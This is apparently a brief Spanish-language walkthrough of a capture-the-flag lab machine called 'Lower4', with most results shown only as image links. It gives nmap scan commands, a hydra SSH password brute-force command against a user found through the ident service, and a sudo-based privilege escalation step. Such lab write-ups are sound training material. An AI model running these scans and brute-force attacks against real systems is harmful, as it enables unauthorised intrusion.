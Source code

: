 # Máquina Lower4

### Reconocimiento de la Ip de la máquina víctima

![alt text](image.png)

### Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 192.168.42.139

![alt text](image-1.png)

### Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p22,80,113 vvv -Pn 192.168.42.139

![alt text](image-2.png)


### Explotación

El servicio ident es un servicio de identificación de usuarios, por lo tanto lucifer es un usuario que ha hecho conexión con el sistema.

Ataqu de fuerza bruta:

hydra -l lucifer -P /usr/share/wordlists/rockyou.txt 192.168.42.139 ssh

![alt text](image-3.png)

nos conectamos por ssh

![alt text](image-4.png)

### user.txt

![alt text](image-6.png)

### Escalar privilegios

sudo -l

![alt text](image-5.png)

![alt text](image-7.png)

### root.txt

![alt text](image-8.png)
